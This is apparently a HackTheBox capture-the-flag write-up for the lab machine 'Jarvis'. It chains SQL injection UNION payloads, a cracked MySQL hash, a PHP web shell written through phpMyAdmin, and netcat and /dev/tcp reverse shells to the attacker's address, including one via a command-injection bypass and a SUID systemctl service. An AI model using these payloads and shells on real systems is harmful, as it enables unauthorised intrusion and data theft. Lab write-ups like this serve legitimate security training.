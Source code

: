 ```yaml
---
title: Jarvis
date: 2022-06-17 
categories: [HackTheBox, Medium]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```


![](https://i.imgur.com/mqAZPzN.png)

This time around, we got a Tony Stark themed box- Jarvis. This box was the first time playing around with sql injection. The box taught me how to perform UNION SELECT to enumerate the database by hand rather than using a tool such as sqlmap.

## Recon
`nmap -sVC 10.10.10.143`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-16 23:21 EDT
Nmap scan report for 10.10.10.143
Host is up (0.080s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```

`gobuster dir -u http://jarvis.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 50 -x php`
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jarvis.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/06/17 00:24:44 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 23628]
/images               (Status: 301) [Size: 309] [--> http://jarvis.htb/images/]
/nav.php              (Status: 200) [Size: 1333]
/footer.php           (Status: 200) [Size: 2237]
/css                  (Status: 301) [Size: 306] [--> http://jarvis.htb/css/]   
/js                   (Status: 301) [Size: 305] [--> http://jarvis.htb/js/]    
/fonts                (Status: 301) [Size: 308] [--> http://jarvis.htb/fonts/] 
/phpmyadmin           (Status: 301) [Size: 313] [--> http://jarvis.htb/phpmyadmin/]
/connection.php       (Status: 200) [Size: 0]
/room.php             (Status: 302) [Size: 3024] [--> index.php]
/sass                 (Status: 301) [Size: 307] [--> http://jarvis.htb/sass/]
/server-status        (Status: 403) [Size: 298]
Progress: 280888 / 415288 (67.64%)
===============================================================
2022/06/17 00:32:18 Finished
===============================================================
```

![](https://i.imgur.com/VzOaEmJ.jpg)

The website seems to be Tony stark themed, pretty nice. It's running php based on the nmap scan.

## Foothold

![](https://i.imgur.com/4e9VEeS.png)

The rooms pages are based on a php file passing the arguments into queries in mysql. This may be vulnerable to sql injection.
```
http://jarvis.htb/room.php?cod=2
```
We can try a UNION SELECT to try to dump the tables. After some testing, there are 7 entries.
```
http://jarvis.htb/room.php?cod=2 UNION SELECT 1,2,3,4,5,6,7
```
This returns the same entry as the default.
![](https://i.imgur.com/NpNTCLZ.png)

---

```
http://jarvis.htb/room.php?cod=100 UNION SELECT 1,group_concat(schema_name),3,4,5,6,7 FROM information_schema.schemata
```
This query shows us what tables are available
![](https://i.imgur.com/nN67WZE.png)

---

```
http://jarvis.htb/room.php?cod=100 UNION SELECT 1,group_concat(table_name),3,4,5,6,7 FROM information_schema.tables WHERE table_schema='mysql'
```
And this is what is inside of mysql
![](https://i.imgur.com/UzKc47v.png)

---

```bash=
http://jarvis.htb/room.php?cod=100 UNION SELECT 1,2,user,password,5,6,7 FROM mysql.user
```

And to grab from user within mysql

![](https://i.imgur.com/mCYy8HT.png)

DBadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0

While I initially attempted to just spray this password,
>"This looks like a hash" - Sydney.
She's correct. It is a mysql password hash. Tossing it into crackstation should do the trick.

The crack for it is "imissyou"

These creds are going to be used for the phpmyadmin page earlier

![](https://i.imgur.com/ubGZMKy.png)
From here we can write a webshell into the webroot, or atleast where we assume the webroot was.
![](https://i.imgur.com/q831hW4.png)

```
select "<?php echo shell_exec($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php" 
```

From here we can execute commands from jarvis.htb/shell.php using the cmd parameter that we wrote in.

`nc -c bash 10.10.14.19 4444`

Push that into the command line

```
listening on [any] 4444 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.143] 60950
whoami
www-data
```

We have shell

## User

Check sudo perms
`sudo -l`
```
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

Looks like we can run this certain command as pepper. Would not be a bad idea to try to pivot to a different user to see if we can potentially abuse anything new.

```
def exec_ping():              
    forbidden = ['&', ';', '-', '`', '||', '|']                                               
    command = input('Enter an IP: ')    
    for i in forbidden:                                                                                                                                                                      
        if i in command:
            print('Got you')                   
            exit()     
    os.system('ping ' + command)
```

Looks like command injection is possible within that command we are running. We can pass on a variable into the ip parameter. However, there is input sanitization. We can get around this by wrapping our command/file we want to run in a variable.

```
#!/bin/bash

nc -e /bin/bash 10.10.14.19 6969
```
Contents of /tmp/lmao/shell.sh

`sudo -u pepper /var/www/Admin-Utilities/simpler.py -p`
```
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

$(/tmp/lmao/shell.sh)
```

```
pepper@jarvis:~/.ssh$ whoami;id
whoami;id
pepper
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
```
We have user :)

## Root

So we have systemctl as a SUID from linpeas. The following steps were performed from a list of instructions from [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/#suid)

```
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.19/9001 0>&1'

[Install]
WantedBy=multi-user.target
```

Call this file root.service
Enable and start the service

`systemctl enable /home/pepper/root.service`
```
Created symlink /etc/systemd/system/multi-user.target.wants/root.service → /home/pepper/root.service.
Created symlink /etc/systemd/system/root.service → /home/pepper/root.service.
```
`systemctl start root`

```
listening on [any] 9001 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.143] 39174
bash: cannot set terminal process group (7963): Inappropriate ioctl for device
bash: no job control in this shell
```
Pwned :)